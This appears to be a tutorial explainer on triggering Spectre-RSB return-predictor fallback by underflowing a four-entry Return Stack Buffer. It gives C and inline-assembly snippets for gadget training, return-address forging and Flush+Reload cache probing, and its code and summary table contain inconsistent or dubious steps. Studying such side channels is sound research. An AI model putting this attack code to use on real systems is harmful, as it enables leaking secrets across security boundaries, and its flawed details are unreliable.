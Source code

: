 

💥 RSBA Fallback via RSB Underflow (Figure 7)

🎯 Goal:

Trigger RSBA (Return Stack Buffer Alternative) fallback prediction on a CPU where:
	•	🧠 The Return Stack Buffer (RSB) has 4 entries
	•	🔁 When RSB underflows, the CPU falls back to alternative predictors like IP-based BTB

✅ This attack is classified as Spectre-RSB, a subtype of Spectre v2 (mistrained return predictions), falling back to BTB-based return prediction.

⸻

🔁 Step-by-Step Algorithm to Trigger RSBA Fallback

🔧 CPU Assumptions
	•	RSB size = 4 entries
	•	RSB is a LIFO stack of return addresses
	•	call → pushes return address into RSB
	•	ret → pops from RSB and speculates to predicted return address
	•	If RSB is empty, CPU performs RSBA fallback using:
	•	IP-based BTB
	•	Or path-based prediction

⸻

✅ Step 1: RSB Filling Phase (Training/Pre-conditioning)

void Gadget0() { Touch(rb[0]); return; }
void Gadget1() { Touch(rb[1]); return; }
void Gadget2() { Touch(rb[2]); return; }
void Gadget3() { Touch(rb[3]); return; }

Call each gadget to fill the RSB:

Gadget0();  // pushes ret@Gadget0
Gadget1();  // pushes ret@Gadget1
Gadget2();  // pushes ret@Gadget2
Gadget3();  // pushes ret@Gadget3

📦 RSB state after this:

Top → [ret@G3, ret@G2, ret@G1, ret@G0]


⸻

✅ Step 2: Cause RSB Underflow via Extra Returns

Execute more ret instructions than calls to deplete the RSB:

void EmptyRSB() {
    asm volatile (
        "ret\n"  // pops ret@G3
        "ret\n"  // pops ret@G2
        "ret\n"  // pops ret@G1
        "ret\n"  // pops ret@G0 → RSB empty
        "ret\n"  // RSB underflow → triggers fallback!
    );
}

🧠 Note: These returns are not from actual calls. The return address is often forged using frame pointer tricks to avoid crashes.

⸻

✅ Step 3: Train RSBA Predictor (optional)

Some CPUs support fallback predictors (RSBA) based on BTB. You can train these predictors before the attack:

for (int i = 0; i < 100000; ++i) {
    A();  // A() always returns to GadgetX
}

This trains the BTB to associate return sites → gadget entry points.

⸻

✅ Step 4: Execute Return and Trigger RSBA Fallback

Now with an empty RSB, trigger a ret with a forged return address:

__attribute__((noinline)) void TriggerRSBAFallback() {
    uint64_t *ret_addr = (uint64_t *)__builtin_frame_address(0) + 1;
    *ret_addr = (uint64_t)&&skip;
    asm volatile ("ret");

skip:
    // Execution resumes here
}

🎯 During speculation, CPU will fall back to BTB prediction → may speculatively jump to a gadget like Gadget2().

⸻

✅ Step 5: Detect Speculative Gadget via Side Channel

Check which cache line was accessed speculatively:

for (int i = 0; i < 4; ++i) {
    if (ReloadAccess(&rb[i * 4096])) {
        printf("Speculatively returned to Gadget %d\n", i);
    }
}


⸻

📊 Final RSB Behavior Summary (RSB size = 4)

Step	Instruction	RSB State	Action
1	call Gadget0	[ret@G0]	Returns to Gadget0
2	call Gadget1	[ret@G1, ret@G0]	Returns to Gadget1
3	call Gadget2	[ret@G2, ret@G1, ret@G0]	Returns to Gadget2
4	call Gadget3	[ret@G3, ret@G2, ret@G1, ret@G0]	Returns to Gadget3
5	ret	[ret@G2, ret@G1, ret@G0]	Returns to Gadget3
6	ret	[ret@G1, ret@G0]	Returns to Gadget2
7	ret	[ret@G0]	Returns to Gadget1
8	ret	[]	Returns to Gadget0
9	ret	RSB underflow	RSBA fallback occurs


⸻

✅ Summary: Algorithmic Flow

1. Fill RSB via 4 real calls → RSB = [G3, G2, G1, G0]
2. Return 5 times (extra one triggers underflow)
3. Optional: Train RSBA (e.g., IP-based BTB)
4. Forge return → ret speculates using fallback
5. Speculation hits a gadget → Touches secret-dependent cache line
6. Measure which line was accessed via ReloadAccess()


⸻

🧠 Spectre Variant Classification

Component	Description	Spectre Variant
RSB training	Calls to known gadgets	Spectre-RSB
Fallback prediction	BTB-based return speculation	Spectre v2 / BTB variant
Gadget execution	Speculative Touch(reloadbuffer[i])	Shared with all Spectre
Side-channel read	ReloadAccess timing	Flush+Reload (Spectre SCA)


⸻

📈 Mermaid Flow Diagram

graph TD
  A[Start] --> B[Train RSB with 4 calls: Gadget0..3]
  B --> C[Optional: Train RSBA with calls from IP → GadgetX]
  C --> D[Flush reloadbuffer]
  D --> E[Trigger 5 ret instructions (RSB underflow)]
  E --> F[RSB is empty → CPU falls back to RSBA (BTB)]
  F --> G[Speculative execution of GadgetX]
  G --> H[Touch(reloadbuffer[secret])]
  H --> I[Measure cache via ReloadAccess()]
  I --> J[Secret-dependent cache line ]
